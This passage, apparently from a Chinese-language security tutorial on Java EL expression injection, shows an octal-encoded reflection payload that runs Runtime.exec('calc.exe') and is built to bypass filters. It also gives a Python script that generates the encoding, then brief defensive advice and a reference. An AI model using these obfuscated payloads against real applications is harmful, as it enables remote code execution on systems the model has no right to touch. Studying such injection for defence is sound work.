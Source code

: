 ### 利用八进制编码绕过

```
// 八进制编码内容为前面反射调用的PoC
\44\173\47\47\56\147\145\164\103\154\141\163\163\50\51\56\146\157\162\116\141\155\145\50\47\152\141\166\141\56\154\141\156\147\56\122\165\156\164\151\155\145\47\51\56\147\145\164\115\145\164\150\157\144\50\47\145\170\145\143\47\54\47\47\56\147\145\164\103\154\141\163\163\50\51\51\56\151\156\166\157\153\145\50\47\47\56\147\145\164\103\154\141\163\163\50\51\56\146\157\162\116\141\155\145\50\47\152\141\166\141\56\154\141\156\147\56\122\165\156\164\151\155\145\47\51\56\147\145\164\115\145\164\150\157\144\50\47\147\145\164\122\165\156\164\151\155\145\47\51\56\151\156\166\157\153\145\50\156\165\154\154\51\54\47\143\141\154\143\56\145\170\145\47\51\175
```

JohnFord 师傅的脚本

PYTHON

```
str = "${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}"
result = ""
for s in str:
  num = "\\" + oct(ord(s))
  result += num
print(result.replace("\\0", "\\"))
```

## 0x07 防御方法

- 尽量不使用外部输入的内容作为 EL 表达式内容；
- 若使用，则严格过滤EL表达式注入漏洞的 payload 关键字；
- 如果是排查 Java 程序中 JUEL 相关代码，则搜索如下关键类方法：

JAVA

```
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```

## 0x08 参考资料

[EL表达式注入](https://johnfrod.top/安全/el表达式注入/)